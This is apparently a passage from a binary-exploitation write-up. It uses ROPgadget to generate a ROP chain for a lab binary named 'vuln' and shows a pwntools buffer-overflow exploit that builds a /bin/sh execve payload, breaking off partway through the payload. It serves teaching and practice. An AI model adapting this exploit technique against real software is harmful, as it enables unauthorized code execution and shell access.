 We then use the ropgadget tool which offers us a superb ropchain made with our vulnerable program:

```shell
$ ropgadget --binary vuln --ropchain
```

The output is long (verbose), I only put part of it:

<img class="img_full" src="ropgadget.png" alt="ropgadget" >

So we make it a python file, our exploit is the following:

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
```